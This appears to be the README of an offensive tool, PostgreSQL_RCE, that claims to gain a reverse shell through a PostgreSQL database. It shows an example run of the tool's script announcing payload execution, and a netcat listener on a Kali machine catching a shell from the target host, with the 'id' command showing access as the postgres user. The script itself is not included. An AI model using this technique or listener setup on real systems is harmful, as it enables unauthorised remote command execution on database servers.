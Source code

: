 # PostgreSQL_RCE
Get a reverse shell using PostgreSQL

# Example:

```bash
python3 postgresql_rce.py                                                                               
[!] Connected to the PostgreSQL database
[*] Executing the payload. Please check if you got a reverse shell!
```


# On your Kali machine
```bash
# nc -lnvp 80
listening on [any] 80 ...
connect to [192.168.49.56] from (UNKNOWN) [192.168.56.47] 56810
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=106(postgres) gid=113(postgres) groups=113(postgres),112(ssl-cert)
$ 
```
